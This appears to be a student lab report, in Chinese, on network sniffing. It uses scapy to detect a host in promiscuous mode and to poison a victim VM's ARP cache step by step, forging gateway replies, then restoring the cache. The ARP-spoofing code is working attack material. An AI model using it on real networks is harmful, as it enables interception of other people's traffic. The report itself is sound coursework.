



# 网络监听实验报告

## 网络拓扑


gateway Debian
192.168.56.113

Attacker Kali
172.16.111.116


Victim Kali
172.16.111.111
## 实验环境配置

在Attacker上安装scapy

```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```

## 实验一 检测互联网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用:
# 在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。
ip link show eth0 

#2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#    link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff

```
 

- 
```
# 在 scapy 的交互式终端输入以下代码回车执行
# 改函数的作用为查看混杂模式主机而发送ARP请求
pkt = promiscping("172.16.111.111")

# Begin emission:
# Finished sending 1 packets.

# Received 0 packets, got 0 answers, remaining 1 packets
```

- 也就是说，当目标主机的混杂模式关闭时，攻击者使用“promiscping”构造的数据包得不到answer，无法侦测到目标主机。



- 回到受害者主机上开启网卡的『混杂模式』
- 注意上述输出结果里应该没有出现 PROMISC 字符串
- 手动开启该网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```
此时的scapy输出如下图


- 对比前后两次“promiscping”的输出，可知，在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。后者就是被动监听。

实验结束后要记得关闭victim的混杂模式

```
sudo ip link set eth0 promisc off
```

## 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:0e:34:8d
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:0e:34:8d
     psrc= 172.16.111.116
     hwdst= 00:00:00:00:00:00
     pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

#Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets


# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
# .
# Sent 1 packets.
```


- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:
```
172.16.111.116 dev eth0 lladdr 08:00:27:0e:34:8d STALE
172.16.111.1 dev eth0 lladdr 08:00:27:8a:57:4c STALE

```
按理来说应该是，可是并没有被替换，搜索资料以后，将上面发送报文的sendp函数改为send函数，得到如下结果，说明arp投毒成功：
```
172.16.111.116 dev eth0 lladdr 08:00:27:0e:34:8d STALE
172.16.111.1 dev eth0 lladdr 08:00:27:0e:34:8d REACHABLE

```

回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:8a:57:4c", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")

send(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。
```
ping 172.16.111.1
ip neigh
```


## 参考文献

- [第四章课本内容](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [send与sendp官档](https://scapy.readthedocs.io/en/latest/usage.html)